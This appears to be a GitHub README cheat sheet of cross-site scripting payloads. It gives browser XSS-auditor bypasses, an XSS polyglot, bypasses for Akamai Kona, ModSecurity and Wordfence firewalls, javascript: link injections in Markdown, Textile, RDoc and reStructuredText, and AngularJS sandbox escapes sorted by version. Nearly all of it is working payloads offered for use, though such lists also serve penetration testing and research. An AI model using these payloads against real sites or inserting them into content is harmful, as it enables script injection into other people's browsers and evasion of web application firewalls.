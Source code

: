 ## XSS

**Chrome XSS-Auditor Bypass** by [@vivekchsm](https://twitter.com/vivekchsm)

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

**Chrome < v60 beta XSS-Auditor Bypass**

```html
<script src="data:,alert(1)%250A-->
```

**Other Chrome XSS-Auditor Bypasses**

```html
<script>alert(1)</script
```

```html
<script>alert(1)%0d%0a-->%09</script
```

```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

**Safari XSS Vector** by [@mramydnei](https://twitter.com/mramydnei/status/902470271327551489)

```html
<script>location.href;'javascript:alert%281%29'</script>
```

**XSS Polyglot** by [Ahmed Elsobky](https://github.com/0xSobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Kona WAF (Akamai) Bypass**

```html
\');confirm(1);//
```

**ModSecurity WAF Bypass**
Note: This kind of depends on what security level the application is set to. See: https://modsecurity.org/rules.html
```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

**Wordfence XSS Bypasses**

```html
<meter onmouseover="alert(1)"
```

```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**jQuery < 3.0.0 XSS**
 by [Egor Homakov](https://github.com/jquery/jquery/issues/2432)

```js
$.get('http://sakurity.com/jqueryxss')
```

In order to really exploit this jQuery XSS you will need to fulfil one of the following requirements:

1) Find any cross domain requests to untrusted domains which may inadvertently execute script.
2) Find any requests to trusted API endpoints where script can be injected into data sources.

**URL verification bypasses (works without `&#x09;` too)**

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS**

```md
[a](javascript:confirm(1)
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```

**Lightweight Markup Languages**

**RubyDoc** (.rdoc)

```rdoc
XSS[JavaScript:alert(1)]
```

**Textile** ([.textile](https://txstyle.org/))

```textile
"Test link":javascript:alert(1)
```

**reStructuredText** ([.rst](http://docutils.sourceforge.net/docs/user/rst/quickref.html))

```rst
`Test link`__.

__ javascript:alert(document.domain)  
```

**Unicode characters**

```html
†‡•＜img src=a onerror=javascript:alert('hacked')>…‰€
```

**AngularJS Template Injection based XSS**

*For manual verification on a live target, use `angular.version` in your browser console*

**1.0.1 - 1.1.5** by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

**1.2.0 - 1.2.1** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

**1.2.2 - 1.2.5** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

**1.2.6 - 1.2.18** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

**1.2.19 - 1.2.23** by [Mathias Karlsson](https://twitter.com/avlidienbrunn)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

**1.2.24 - 1.2.29** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

**1.3.0** by [Gábor Molnár (Google)](https://twitter.com/molnar_g)

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

**1.3.1 - 1.3.2** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

**1.3.3 - 1.3.18** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

**1.3.19** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}

```

**1.3.20** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**1.4.0 - 1.4.9** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

**1.5.0 - 1.5.8** by [Ian Hickey](https://twitter.com/ianhickey1024)

```js
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

**1.5.9 - 1.5.11** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

**1.6.0+** (no [Expression Sandbox](http://angularjs.blogspot.co.uk/2016/09/angular-16-expression-sandbox-removal.html)) by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```
